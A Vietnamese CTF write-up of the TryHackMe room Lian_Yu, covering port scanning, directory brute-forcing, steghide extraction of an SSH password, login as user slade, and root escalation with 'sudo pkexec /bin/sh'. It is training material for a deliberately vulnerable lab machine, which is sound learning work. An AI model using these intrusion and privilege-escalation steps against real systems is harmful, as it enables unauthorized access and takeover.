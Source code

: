 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Lian_Yu"
date: "2022-03-18"
tags: [
    "tryhackme",
    "web",
    "linux",
    "steghide",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-18-THM-Lian-Yu/1.webp)

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Lian_Yu](https://tryhackme.com/room/lianyu)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 5650bd11efd4ac5632c3ee733ede87f4 (DSA)
|   2048 396f3a9cb62dad0cd86dbe77130725d6 (RSA)
|   256 a66996d76d6127967ebb9f83601b5212 (ECDSA)
|_  256 3f437675a85aa6cd33b066420491fea0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43991/tcp   status
|   100024  1          50671/udp6  status
|   100024  1          53634/udp   status
|_  100024  1          58301/tcp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tôi thử qua ftp với user Anonymous nhưng không có kết quả, vậy nên tôi sẽ bắt đầu với web - port 80

![web](/assets/img/2022-03-18-THM-Lian-Yu/2.webp)

Sử dụng *dirsearch* thì tôi tìm thấy path ẩn là */island/*

![island](/assets/img/2022-03-18-THM-Lian-Yu/3.webp)

Vào phần source web thì tôi tìm được Code Word là `vigilante`, tôi cũng chưa biết code này để làm gì nhưng cứ lưu nó lại đã

Tiếp dùng *dirsearch* thêm 1 lần nữa tôi có 1 path khác là */2100* 

Truy cập vào path này và tôi tìm được 1 thứ khác trong phần source web

```python
<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>

<p align=center >
<iframe width="640" height="480" src="[https://www.youtube.com/embed/X8ZiFuW41yY](view-source:https://www.youtube.com/embed/X8ZiFuW41yY)">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>
```

Vậy là file ẩn có đuôi `.ticket`. Tôi sẽ sử dụng *dirsearch* thêm 1 lần nữa và thêm extension là `.ticket`

```python
┌──(neo㉿kali)-[~]
└─$ dirsearch -u 10.10.171.203/island/2100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e ticket
```

Tôi tìm được `green_arrow`

![green_arrow](/assets/img/2022-03-18-THM-Lian-Yu/4.webp)

Với Hint sử dụng CyberChef, tôi tìm decode được mã trên với base58.

Login nó với ftp và sử dụng user *vigilante*

```python
┌──(neo㉿kali)-[~]
└─$ ftp 10.10.171.203
Connected to 10.10.171.203.
220 (vsFTPd 3.0.2)
Name (10.10.171.203:neo): vigilante
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||38540|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.webp
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.webp
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
ftp> 
```

Lấy cả 3 ảnh này về để phân tích. Trong này có 2 ảnh Quenn và aa là có thể xem được còn ảnh Leave_me_alone thì không. Tôi sẽ up nó lên *hexed.it để phân tích 

![leave](/assets/img/2022-03-18-THM-Lian-Yu/5.webp)

8 byte ký hiệu đầu tiên của file png này không đúng (hoặc đã bị thay đổi). Tôi sẽ sửa lại nó và export ra ảnh mới

![pass](/assets/img/2022-03-18-THM-Lian-Yu/6.webp)

Ảnh này và aa đều có điểm chung là về những tay súng, nên tôi nghĩ chúng có thể liên quan đến nhau chăng?

Tôi sẽ thử dùng steghide phân tích ảnh aa với passphrase là `password`

```python
┌──(neo㉿kali)-[~]
└─$ steghide extract -sf aa.jpg
Enter passphrase: 
wrote extracted data to "ss.zip".
```

Được luôn! Giải nến tệp này

```python
┌──(neo㉿kali)-[~]
└─$ unzip ss.zip 
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado                   
                                           
┌──(neo㉿kali)-[~]
└─$ cat passwd.txt             
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
                                            
┌──(neo㉿kali)-[~]
└─$ cat shado     
M3tahuman
```

Bây giờ tôi đã có 1 password nhưng chưa có username, nhìn lại chiếc ảnh về người đàn ông này, tôi thử tìm kiếm trên gg bằng bức ảnh này và người trong ảnh tên là Slade Wilson a.k.a Deathstroke

Thử login ssh với tên Slade 

```python
┌──(neo㉿kali)-[~]
└─$ ssh slade@10.10.59.181
The authenticity of host '10.10.59.181 (10.10.59.181)' can't be established.
ED25519 key fingerprint is SHA256:DOqn9NupTPWQ92bfgsqdadDEGbQVHMyMiBUDa0bKsOM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:77: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.59.181' (ED25519) to the list of known hosts.
slade@10.10.59.181's password: 
                            Way To SSH...
                        Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ id
uid=1000(slade) gid=1000(slade) groups=1000(slade),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
slade@LianYu:~$ ls
user.txt
```

## Privilege escalation

`sudo -l`

```python
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ 
```

[pkexec | GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/)

```python
slade@LianYu:~$ sudo pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
# 
```
